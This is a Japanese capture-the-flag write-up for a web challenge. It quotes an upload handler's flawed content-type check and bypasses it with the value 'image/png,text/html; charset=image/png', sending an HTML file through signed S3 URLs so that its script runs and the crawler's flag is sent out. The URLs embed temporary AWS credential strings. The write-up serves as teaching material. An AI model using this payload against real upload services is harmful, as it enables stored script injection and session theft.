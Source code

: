 # forward priority...:Validation Bypass:50pts
Is it really a good idea if the preffix match?  

- [Target](https://d2dy54wkxy5lef.cloudfront.net/)  

**source code**  

- [Web Application](https://drive.google.com/file/d/1R2SUwJksnLgWM7FSbFmJJEX39s5uc3lK/view?usp=drive_link)  

※ If no announcement is made, all "Crawler" source codes are the same.  

[https://d2dy54wkxy5lef.cloudfront.net/](https://d2dy54wkxy5lef.cloudfront.net/)  

# Solution
URLとアプリケーションのソースが渡される。  
クローラは[Server Side Upload](../Server_Side_Upload)と同様で、サイトの機能も同じであった。  
![site.png](site/site.png)  
ソースの主要箇所は以下の通りであった。  
```ts
~~~
server.post<{
  Body: {
    contentType: string;
    length: number;
  };
}>('/api/upload', async (request, reply) => {
  if (!request.body.contentType || !request.body.length) {
    return reply.code(400).send({ error: 'No file uploaded' });
  }

  if (request.body.length > 1024 * 1024 * 100) {
    return reply.code(400).send({ error: 'File too large' });
  }

  const allowContentTypes = ['image/png', 'image/jpeg', 'image/jpg'];

  const isAllowContentType = allowContentTypes.filter((contentType) => request.body.contentType.startsWith(contentType) && request.body.contentType.endsWith(contentType));
  if (isAllowContentType.length === 0) {
    return reply.code(400).send({ error: 'Invalid file type' });
  }

  const filename = uuidv4();
  const s3 = new S3Client({});
  const command = new PutObjectCommand({
    Bucket: process.env.BUCKET_NAME,
    Key: `upload/${filename}`,
    ContentLength: request.body.length,
    ContentType: request.body.contentType,
  });

  const url = await getSignedUrl(s3, command, {
    expiresIn: 60 * 60 * 24,
    signableHeaders: new Set(['content-type', 'content-length']),
  });
  return reply.header('content-type', 'application/json').send({
    url,
    filename,
  });
});
~~~
```
`filter`により`contentType`をチェックしている。  
`['image/png', 'image/jpeg', 'image/jpg']`のどれかが`startsWith`かつ`endsWith`である必要があるようだ。  
これら関数は文字列にしか生えていないので、配列などのテクニックは利用できない。  
この時点で`image/png[何らかの文字]; charset=image/png`であろうことは確定する。  
何らかの文字を決めたいが、単に`text/html`ではいけないことは容易にわかる。  
ここで試しに`,`で区切って`image/png,text/html; charset=image/png`としてやることを思いつく。  
```bash
$ curl -X POST -H 'Content-Type: application/json' -d '{"contentType":"image/png,text/html; charset=image/png","length":221}' --upload-file xs3.html 'https://d2dy54wkxy5lef.cloudfront.net/api/upload'
{"url":"https://uploadbucket-5b1bc63390-4-3-upload.s3.ap-northeast-1.amazonaws.com/upload/d0ff8639-681d-4432-9660-e98f6cbad339?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=ASIAUPVKPCT4ORKKPCFY%2F20240329%2Fap-northeast-1%2Fs3%2Faws4_request&X-Amz-Date=20240329T053617Z&X-Amz-Expires=86400&X-Amz-Security-Token=IQoJb3JpZ2luX2VjEM3%2F%2F%2F%2F%2F%2F%2F%2F%2F%2FwEaDmFwLW5vcnRoZWFzdC0xIkYwRAIgVa2GgZ9IVYZ8IRkJ6ZCv629Jwlx1HCm9hpb%2Bd5VPCewCIESLuqPsgNyXs6TLyCDJN9iGOeJ1FXd8arI1I%2BDUY%2FmCKrsDCOf%2F%2F%2F%2F%2F%2F%2F%2F%2F%2FwEQARoMMzA4NTIxNDA3NzM2IgxycuSF3w824GiffPYqjwMULpygKaTJk2KsFdFDmYehSgAniXXGgo3MY0PA5dp0xFX6bNXHTBst3euE9HxiRi9OYJZd%2F3jkHb%2FV2BGaiV72Aq4Cuag2m8dFLODoFACciciahy1rqmlEHT0qauolubE5cuXrdzHY7J9sRhQZA4Kap5woFKEh55tse8xsRgC7fBKJjZ0RIUMmRtiFynhVouqBELqlUK9Xvrur1eEtXZOwUScc%2FWED2iNvlU84f%2F%2BH2eU%2BLsdw9vfXYu3nOsFiiTx0f8d9XVibV4PqNnztRr%2B0OHc9NakVMjMoQDIpwunnUKovS%2BBeHcnF0f%2FH7eAF017IvdqM92UaXrdXKZPZj07Z0lPxGUGeonfhs561wIpJsMG0J3Ghx3VVqfgUh1%2B48Qju2dEN7kOUn5eTSVRwIBsrMnpPa%2FUys%2FXF3Q8bW4YC30Me%2FuRnVZcsvL14HzHegNHk2I5VQ5sHBy2897JbBTidIof2soRJ%2F8s1QXYQ2lg9nhrwWNalwtj0ayWV5OvQB5zXNbzQ54DwEFQb9RfQ6vwwz6aZsAY6nwEtF00pkuxjJ1oTBcQLQu9qjpRjCK4%2FNOBPGN2ICHdR%2FAQbEB9HWN184QwhN4tHjE8x2qnjYXfe5fNpaZr%2Bz8yHjPS01tWjGqnVzBj%2BOFMKW5OePizAcAjwKE8QVpSnDtlsm6vfqz8OvKMZeLE99QpGde89Ue208z7Ick6frnSIkYvETbbxZWZ9QYSrCnmHLNreNizsYCWwlGhiT4sFUwg%3D&X-Amz-Signature=29cdffa291f54b12f5bf552377f5f0be0cd7914ec8458a80e1075214399ca108&X-Amz-SignedHeaders=content-length%3Bcontent-type%3Bhost&x-id=PutObject","filename":"d0ff8639-681d-4432-9660-e98f6cbad339"}
$ curl -X PUT -H 'Content-Type: image/png,text/html; charset=image/png' --upload-file xs3.html 'https://uploadbucket-5b1bc63390-4-3-upload.s3.ap-northeast-1.amazonaws.com/upload/d0ff8639-681d-4432-9660-e98f6cbad339?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=ASIAUPVKPCT4ORKKPCFY%2F20240329%2Fap-northeast-1%2Fs3%2Faws4_request&X-Amz-Date=20240329T053617Z&X-Amz-Expires=86400&X-Amz-Security-Token=IQoJb3JpZ2luX2VjEM3%2F%2F%2F%2F%2F%2F%2F%2F%2F%2FwEaDmFwLW5vcnRoZWFzdC0xIkYwRAIgVa2GgZ9IVYZ8IRkJ6ZCv629Jwlx1HCm9hpb%2Bd5VPCewCIESLuqPsgNyXs6TLyCDJN9iGOeJ1FXd8arI1I%2BDUY%2FmCKrsDCOf%2F%2F%2F%2F%2F%2F%2F%2F%2F%2FwEQARoMMzA4NTIxNDA3NzM2IgxycuSF3w824GiffPYqjwMULpygKaTJk2KsFdFDmYehSgAniXXGgo3MY0PA5dp0xFX6bNXHTBst3euE9HxiRi9OYJZd%2F3jkHb%2FV2BGaiV72Aq4Cuag2m8dFLODoFACciciahy1rqmlEHT0qauolubE5cuXrdzHY7J9sRhQZA4Kap5woFKEh55tse8xsRgC7fBKJjZ0RIUMmRtiFynhVouqBELqlUK9Xvrur1eEtXZOwUScc%2FWED2iNvlU84f%2F%2BH2eU%2BLsdw9vfXYu3nOsFiiTx0f8d9XVibV4PqNnztRr%2B0OHc9NakVMjMoQDIpwunnUKovS%2BBeHcnF0f%2FH7eAF017IvdqM92UaXrdXKZPZj07Z0lPxGUGeonfhs561wIpJsMG0J3Ghx3VVqfgUh1%2B48Qju2dEN7kOUn5eTSVRwIBsrMnpPa%2FUys%2FXF3Q8bW4YC30Me%2FuRnVZcsvL14HzHegNHk2I5VQ5sHBy2897JbBTidIof2soRJ%2F8s1QXYQ2lg9nhrwWNalwtj0ayWV5OvQB5zXNbzQ54DwEFQb9RfQ6vwwz6aZsAY6nwEtF00pkuxjJ1oTBcQLQu9qjpRjCK4%2FNOBPGN2ICHdR%2FAQbEB9HWN184QwhN4tHjE8x2qnjYXfe5fNpaZr%2Bz8yHjPS01tWjGqnVzBj%2BOFMKW5OePizAcAjwKE8QVpSnDtlsm6vfqz8OvKMZeLE99QpGde89Ue208z7Ick6frnSIkYvETbbxZWZ9QYSrCnmHLNreNizsYCWwlGhiT4sFUwg%3D&X-Amz-Signature=29cdffa291f54b12f5bf552377f5f0be0cd7914ec8458a80e1075214399ca108&X-Amz-SignedHeaders=content-length%3Bcontent-type%3Bhost&x-id=PutObject'
```
通るようだ。  
さすがにContent-Typeが壊れてDLが始まるかと思うと予測する。  
試しに`https://d2dy54wkxy5lef.cloudfront.net/upload/d0ff8639-681d-4432-9660-e98f6cbad339`にアクセスするとHTMLが読み込まれJavaScriptが動いていた。  
これをクローラへ報告すればよい。  
以下のリクエストが届く。  
```
GET
/?satoki=flag=flag{f9eedd5f8b508ff8b03b803affb00d381826047b}
```
flagが得られた。  

## flag{f9eedd5f8b508ff8b03b803affb00d381826047b}